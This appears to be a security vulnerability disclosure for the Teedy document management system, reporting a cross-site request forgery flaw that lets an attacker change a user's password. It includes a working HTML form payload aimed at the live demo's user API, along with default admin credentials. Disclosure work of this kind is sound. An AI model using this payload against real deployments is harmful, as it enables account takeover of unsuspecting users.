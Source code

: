 ## :writing_hand: Description

Teedy is a lightweight document management system packed with all the features you can expect from big expensive solutions. It is vulnerable to account takeover with CSRF.

## :male_detective: Proof of Concept

1. Install the package by following these [instructions](https://github.com/sismics/docs#install-with-docker) or try the live demo https://demo.teedy.io
2. Login as admin with credentials `admin:admin`
3. Generate CSRF PoC from burpsuite
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://demo.teedy.io/api/user" method="POST">
      <input type="hidden" name="password" value="hacked123" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
4. Visit the payload URL and click submit button
5. The user's password is changed successfully

## :boom: Impact

An attacker is able to takeover any account

